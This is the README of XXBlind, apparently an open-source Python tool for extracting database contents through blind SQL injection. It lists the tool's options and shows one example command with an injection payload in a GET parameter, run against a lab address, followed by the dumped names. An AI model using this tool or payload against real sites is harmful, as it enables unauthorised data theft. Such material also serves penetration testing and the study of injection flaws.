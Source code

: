 XXBlind
=======

XXBlind, eXtremely fast data eXtraction via blind SQL injection.

The tool can perform attacks against local databases or vulnerable remote
sites. It implements different methods for data extraction, i.e.,
brute-forcing, binary search, probabilistic binary search weighted on single
letters, probabilistic binary search weighted on bigrams and dictionary based
search. By using multi-threading, xxblind supports fast searches for increased
efficiency.

### Requirements

* Python 2.7 or greater (Python 3.X supported)

### Usage

	usage: xxblind [-h] [-U] [-i] [-c COOKIE] [-y SUCCESS] [-s SAMPLE]
		       [-d DICTIONARY] [-O {0,1,2,3,4}] [-q QUERY] [-Q QROWLEN]
		       [-R QROWNUM] [-S QSEPS] [-W QWORDS] [-F FILTER] [-e SEPARATORS]
		       -t TABLE -f FIELDS [-T THREADS] [-v] [-u URL]
		       [-g [GET [GET ...]]] [-p [POST [POST ...]]] [-l LOCALDB]

	Optimizated data retrieval via blind SQLi

	optional arguments:
	  -h, --help            show this help message and exit
	  -U, --upper           if specified, parse the uppercase version of sample
				file
	  -i, --quiet           turn off output
	  -c COOKIE, --cookie COOKIE
				pass the data as a cookie
	  -y SUCCESS, --success SUCCESS
				look for this string in the HTML page in case of SQLi
				success
	  -s SAMPLE, --sample SAMPLE
				specify a sample text to parse for collecting
				statistical informations
	  -d DICTIONARY, --dictionary DICTIONARY
				specify a dictionary file to fill missing words in the
				sample file
	  -O {0,1,2,3,4}, --optimize {0,1,2,3,4}
				perform an optimized binary search. Use 0 for no
				optimization (linear search), 1 for binary search, 2
				for binary search using letters frequency, 3 for
				binary search using digrams frequency and 4 for
				dictionary search
	  -q QUERY, --query QUERY
				specify a query for character extraction
	  -Q QROWLEN, --qrowlen QROWLEN
				specify a query for extracting row length
	  -R QROWNUM, --qrownum QROWNUM
				specify a query for extracting the number of rows
	  -S QSEPS, --qseps QSEPS
				specify a query for extracting the position of
				separators in each row
	  -W QWORDS, --qwords QWORDS
				specify a query for words extraction
	  -F FILTER, --filter FILTER
				specify one or more conditions in every query
	  -e SEPARATORS, --separators SEPARATORS
				specify the separators
	  -t TABLE, --table TABLE
				specify a table
	  -f FIELDS, --fields FIELDS
				specify one or more fields to dump
	  -T THREADS, --threads THREADS
				specify the maximum number of concurrent threads
	  -v, --version         show program's version number and exit
	  -u URL, --url URL     target url
	  -g [GET [GET ...]], --get [GET [GET ...]]
				define a list of GET variables
	  -p [POST [POST ...]], --post [POST [POST ...]]
				define a list of POST variables
	  -l LOCALDB, --localdb LOCALDB
				target db for simulation purposes. Pass parameters for
				connecting in the form of host:user:pwd:dbname

### Examples

A typical invocation of the tool consists in specifying the vulnerable page, a
list of GET or POST parameters, the string to look for when the SQLi succeeds,
the field of the table to be extracted and the table name, the type of attack,
a text for sampling words and computing frequency analysis and the number of
threads.

The following command dumps the name field of the table person by performing a
dictionary based search using 3 parallel threads:

	xxblind -u "http://192.168.56.101/vulnerable.php" \
		-g "name=’ OR %%%QUERY%%% #" -y "found" \
		-f name -t person -O4 \
		-s samples/names_it.txt -T3
	[*] Performing dictionary search
	[*] Getting separator positions
	[*] Extracted data
	--------------------------------
	flaminia
	riccardo
	marco
	--------------------------------
	Total time (s): 1.18442893028
	Parallel threads: 3
	Total queries: 59, Total chars: 21
	Queries/Chars ratio: 2.80952380952

